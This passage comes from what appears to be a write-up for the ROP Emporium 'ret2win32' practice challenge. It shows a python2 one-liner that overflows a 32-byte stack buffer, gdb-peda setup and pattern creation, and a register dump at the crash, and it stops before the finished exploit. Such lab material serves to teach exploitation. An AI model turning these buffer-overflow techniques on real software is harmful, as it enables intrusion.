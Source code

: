 Okay this is exactly what we were talking about. The program will try to store 56 bytes into a 32 byte buffer. 
To overflow the program we will use `python2` to generate garbage data that exceed the buffers capacity and pipe them to `ret2win32` 

```
$ python2 -c "print('A' * 100)" | ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
zsh: done                python2 -c "print('A' * 100)" | 
zsh: segmentation fault  ./ret2win32
```

And thats it! Nothing special right? Now lets hop on `gdb` (**G**NU project **d**e**b**ugger) and figure out the offset.

> Note that for this writeup we will be using gdb-ped a **p**ython **e**xploit **d**evelopment **a**ssistance for gdb
> Setup with:
> 
> git clone https://github.com/longld/peda.git ~/peda  
   echo "source ~/peda/peda.py" >> ~/.gdbinit
>

```
$ apt install gdb
[ . . . ]
$ gdb -q ret2win32 # Quiet mode to only show usable output
Reading symbols from ret2win32...
(No debugging symbols found in ret2win32)
gdb-peda$
```

Lets create a pattern we will use to overflow the program and store it inside of a file

```
[ . . . ]
gdb-peda$ pattern create 100 pattern.txt
```

Now if we run it using the pattern we just created as an input we should see the program crashing.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0xf7e1cff4 --> 0x21cd8c 
ECX: 0xf7e1e9b8 --> 0x0 
EDX: 0x1 
ESI: 0x8048660 (<__libc_csu_init>:      push   ebp)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x72742074 ('t tr')
ESP: 0xffffcf80 (" I will ")
EIP: 0x2c6b6369 ('ick,')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x2c6b6369
[------------------------------------stack-------------------------------------]
0000| 0xffffcf80 (" I will ")
0004| 0xffffcf84 ("ill ")
0008| 0xffffcf88 --> 0x0 
0012| 0xffffcf8c --> 0xf7c23295 (add    esp,0x10)
0016| 0xffffcf90 --> 0x0 
0020| 0xffffcf94 --> 0x70 ('p')
```